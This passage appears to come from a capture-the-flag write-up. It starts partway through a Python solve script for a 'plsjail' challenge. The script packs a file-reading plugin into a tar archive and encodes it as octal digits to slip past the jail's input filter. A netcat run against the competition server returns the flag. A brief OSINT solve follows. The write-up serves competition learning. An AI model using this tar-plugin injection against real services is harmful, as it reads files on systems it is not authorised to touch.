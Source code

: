 ```
                    n = name.lower()
                    if "flag" in n and len(n) <= 24:
                        p = os.path.join(dirpath, name)
                        try:
                            with open(p, "r", errors="ignore") as f:
                                print(f.read().strip()); return
                        except Exception:
                            pass
        except Exception:
            pass
    print("no flag found")
'''

def make_tar_with_plugin(pycode: str) -> bytes:
    bio = io.BytesIO()
    # Plain tar (no compression) keeps the payload small & simple.
    with tarfile.open(fileobj=bio, mode="w") as tf:
        data = pycode.encode()
        info = tarfile.TarInfo(name="plugin.py")
        info.size = len(data)
        info.mtime = int(time.time())
        info.mode = 0o644
        tf.addfile(info, io.BytesIO(data))
    return bio.getvalue()

def as_octal_triplets(b: bytes) -> str:
    # Jail wants only digits 0-7, length multiple of 3; one triplet per byte. :contentReference[oaicite:1]{index=1}
    return "".join(f"{byte:03o}" for byte in b)

if __name__ == "__main__":
    tar_bytes = make_tar_with_plugin(PLUGIN)
    print(as_octal_triplets(tar_bytes))

```
## Test run
```┌──(kali㉿kali)-[~/Downloads]
└─$ python3 plsjail.py | nc ctf.ac.upt.ro 9814
/app/server_hard.py:22: DeprecationWarning: Python 3.14 will, by default, filter extracted tar archives and reject files or modify their metadata. Use the filter argument to control this behavior.
  tf.extract(m, path)
Send octal
ctf{0331641fadb35abb1eb5a9640fa6156798cba4538148ceb863dfb1821ac69000}
```



# Writeup - Parting_ways (OSINT)

# Solve
I've lost my mind during this chall, i only found pictures of the city from other angles, the city was right, but there was 0 information about it.

![A test image](https://s2.wklcdn.com/image_50/1527458/12897799/7942892Master.jpg) I found several similar pictures, then this one where on the website also had the city name. 
Final flag: CTF{Stausacker}

